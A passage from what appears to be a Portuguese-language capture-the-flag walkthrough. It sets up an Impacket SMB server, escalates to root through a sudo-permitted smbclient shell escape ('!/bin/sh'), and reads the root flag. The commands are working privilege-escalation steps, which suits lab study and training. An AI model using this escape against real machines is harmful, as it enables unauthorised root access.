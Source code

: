 ## Com o Impacket configurado, podemos iniciar um servidor SMB executando o seguinte comando:

```bash
sudo python3 impacket/examples/smbserver.py share /tmp -smb2support
```

## Esse comando cria um compartilhamento SMB chamado share, apontando para o diretório /tmp local. A flag -smb2support garante que o servidor seja compatível com o protocolo SMB2, ampliando a conectividade com sistemas que utilizam versões mais recentes do protocolo.

## Com o servidor SMB configurado, podemos obter acesso root na máquina alvo executando os seguintes comandos:
```bash
sudo smbclient //<your-ip>/share
!/bin/sh
```
![Descrição da imagem](./images/24.png)

## O comando smbclient conecta-se ao compartilhamento SMB configurado, e o !/bin/sh invoca uma shell interativa com privilégios elevados, já que o smbclient está sendo executado como root .

## Obtendo a flag de root:
```bash
cat /root/root.txt
```
![Descrição da imagem](./images/25.png)
